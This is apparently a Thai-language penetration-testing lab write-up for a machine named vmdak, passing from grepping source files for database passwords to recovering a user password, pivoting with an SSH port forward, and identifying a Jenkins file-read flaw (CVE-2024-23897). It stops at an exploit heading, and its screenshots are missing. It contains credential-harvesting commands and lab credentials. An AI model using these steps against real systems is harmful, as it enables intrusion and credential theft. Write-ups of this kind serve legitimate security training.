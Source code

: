 # Database Enum 

```bash
www-data@vmdak:/var/www/prison/database$ cat * | grep -i "pass"
define('DB_PASS','sqlCr3ds3xp0seD');
$dbh = new PDO("mysql:host=".DB_HOST.";dbname=".DB_NAME,DB_USER, DB_PASS,array(PDO::MYSQL_ATTR_INIT_COMMAND => "SET NAMES 'utf8'"));
$password = "sqlCr3ds3xp0seD";
$conn = mysqli_connect($servername, $username, $password, $dbname);
  `password` varchar(15) NOT NULL,
INSERT INTO `tblemployee` (`id`, `employeeID`, `fullname`, `password`, `sex`, `email`, `dob`, `phone`, `address`, `qualification`, `dept`, `employee_type`, `date_appointment`, `basic_salary`, `gross_pay`, `status`, `leave_status`, `photo`) VALUES
  `password` varchar(15) NOT NULL,
INSERT INTO `users` (`username`, `password`, `phone`, `fullname`, `photo`) VALUES
www-data@vmdak:/var/www/prison/database$ 
```

![[Pasted image 20250709112647.png]]

![[Pasted image 20250709112810.png]]

![[Pasted image 20250709112908.png]]

จากข้อมูล /etc/passwd จะเห็นได้ว่ามีเพียง User เดียวคือ vmdak ภายในระบบ 
`vmdak:RonnyCache001`

# Shell as vmdak 
![[Pasted image 20250709113221.png]]

# Local Port Forwarding 
![[Pasted image 20250709134104.png]]
จากข้อมูลข้างต้นจะเห็นว่ามี PORT 8080 ที่ไม่ได้เปิดจากภายนอกให้สามารถเข้าถึงได้ เราจึงมีความจำเป็นต้องทำ Local Port forwarding 

```bash
ssh -N -L 0.0.0.0:8080:127.0.0.1:8080 vmdak@192.168.193.103 
```

![[Pasted image 20250709134509.png]]

จากข้อมูลไฟล์ config.xml จะเห็นได้ว่า Jenkins ใช้เวอร์ชัน 2.401.2 ซึ่งเราจะพบว่ามีช่องโหว่ [CVE-2024-23897: Jenkins Arbitrary File Read](https://github.com/godylockz/CVE-2024-23897?source=post_page-----9c8a2bc4960a---------------------------------------) 

![[Pasted image 20250709135219.png]]

# expliot Jenkins web
